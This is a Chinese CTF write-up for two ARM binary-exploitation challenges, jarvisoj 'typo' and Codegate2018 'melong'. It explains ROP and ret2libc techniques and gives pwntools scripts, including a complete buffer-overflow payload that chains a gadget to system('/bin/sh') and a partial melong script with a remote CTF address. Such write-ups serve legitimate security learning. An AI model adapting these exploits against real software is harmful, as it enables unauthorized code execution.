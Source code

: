 ### jarvisoj typo

静态编译的程序，也就不需要动态链接库了，因此`libc`中的`system`和`/bin/sh`字符串在所给的二进制文件中自然是有的，不过所给的二进制文件去除了符号表，我们不容易找到它们的位置。

 

这里建议先用`IDA`的`Rizzo`插件修复符号表，就可以清楚地看到`system`函数的位置了，不然用交叉引用来找的话比较麻烦。

 

[Rizzo 的 Github 项目地址](https://github.com/Reverier-Xu/Rizzo-IDA "Rizzo 的 Github 项目地址")

```
from pwn import *
context(os = "linux", arch = 'arm', log_level = 'debug')
 
io = process("qemu-arm ./pwn", shell = True)
 
gadget_addr = 0x20904 # pop {r0, r4, pc};
bin_sh_addr = 0x6c384
system_addr = 0x110B4
 
io.send(b'\n')
payload = b'a'*0x70 + p32(gadget_addr) + p32(bin_sh_addr) + p32(0) + p32(system_addr)
io.send(payload)
io.interactive()

```

### Codegate2018 melong

一个`ret2libc`...

 

需要注意的是，调用`puts`后，最后会进入`write`，但是并不是从头开始调用`write`函数的，我们知道，当进入一个函数的时候，会先`push {}`一串寄存器，再在该函数返回时，`pop {}`对应的寄存器，使得栈恢复到进入该函数前的状态，而这里由于从`puts`中走到`write`的时候，不是从头开始执行的，因此不会有前面`push {}`的过程，但是最后会有`pop {}`的发生，故会导致`write`返回的时候栈恢复不到原先的样子，因此，需要压进去一些垃圾数据来使栈恢复。

 

我本地和远程的`libc`版本不同，所以需要压进去的垃圾数据的个数也不同，这个需要自行调试，也体现出带符号表调试的必要性。

```
from pwn import *
context(os = 'linux', arch = 'arm', log_level = 'debug')
 
io = process("qemu-arm -L ./ ./pwn", shell = True)
# io = process("qemu-arm -g 1234 -L ./ ./pwn", shell = True)
# io = remote("node4.buuoj.cn", 28706)
 
elf = ELF("./pwn")
libc = ELF("./lib/libc-2.27.so")
# libc = ELF("./libc-2.30.so")
 
def check(height, weight):
    io.sendlineafter("Type the number:", b'1')
    io.sendlineafter("Your height(meters) : ", str(height))
    io.sendlineafter("Your weight(kilograms) : ", str(weight))
 
def PT(size):
    io.sendlineafter("Type the number:", b'3')
    io.sendlineafter("How long do you want to take personal training?\n", str(size))
 
def write_diary(payload):
    io.sendlineafter("Type the number:", b'4')
    io.send(payload)
 
def quit():
    io.sendlineafter("Type the number:", b'6')
```